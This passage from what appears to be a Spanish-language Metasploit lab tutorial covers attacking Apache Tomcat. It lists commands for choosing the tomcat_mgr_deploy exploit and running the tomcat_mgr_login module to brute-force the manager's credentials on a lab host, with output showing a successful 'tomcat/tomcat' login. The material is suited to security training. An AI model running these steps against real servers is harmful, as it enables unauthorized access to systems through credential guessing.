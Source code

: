     -   Posibles exploits contra el servidor Apache Tomcat

            msf > search tomcat

        Se puede utilizar el exploit `multi/http/tomcat_mgr_deploy`

### Explotación de Tomcat

1.  Seleccionamos el exploit y vemos su descripción y opciones.

        msf > use exploit/multi/http/tomcat_mgr_deploy 
        msf  exploit(tomcat_mgr_deploy) > info

    Debemos especificar un USERNAME y un PASSWORD. Podremos intentar
    obtenerlos con un módulo auxiliar que prueba un diccionario de pares
    usuario+clave usando feurza bruta.

2.  Extracción de credenciales Tomcat (módulo auxiliar
    `auxiliary/scanner/http/tomcat_mgr_login`)

        msf > use auxiliary/scanner/http/tomcat_mgr_login
        msf  auxiliary(tomcat_mgr_login) > info

    Debemos especificar la máquina objetivo (RHOSTS: 198.51.100.222), el
    puerto (RPORT:8080), la URI de la aplicación de gestion de Tomcat
    (URI) y los ficheros con los nombres de usuario y las contraseñas a
    probar (USER\_FILE, PASS\_FILE).

    Bastará con especificar el valor de RHOST y RPORT, con el resto de
    parámetros se usarán los valores por defecto

    -   Desde otro terminal se pueden ver/editar los diccionarios con
        valores para USER y PASS.

            atacante:~# less /opt/metasploit/apps/pro/msf3/data/wordlists/tomcat_mgr_default_users.txt 
            atacante:~# less /opt/metasploit/apps/pro/msf3/data/wordlists/tomcat_mgr_default_pass.txt 

    <!-- -->

        msf  auxiliary(tomcat_mgr_login) > set RHOSTS 198.51.100.222
        RHOSTS => 198.51.100.222
        msf  auxiliary(tomcat_mgr_login) > run

        [*] 198.51.100.222:8080 TOMCAT_MGR - [01/50] - Trying username:'admin' with password:''
        [-] 198.51.100.222:8080 TOMCAT_MGR - [01/50] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'admin'
        ...
        [*] 198.51.100.222:8080 TOMCAT_MGR - [16/50] - Trying username:'tomcat' with password:'tomcat'
        [+] http://198.51.100.222:8080/manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] successful login 'tomcat' : 'tomcat'
        ...
        [*] 198.51.100.222:8080 TOMCAT_MGR - [46/50] - Trying username:'both' with password:'tomcat'
        [-] 198.51.100.222:8080 TOMCAT_MGR - [46/50] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'both'
        [*] Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed

    Nos informa que se puede acceder a la web de administración de
    Tomcat con las credenciales `tomcat/tomcat`
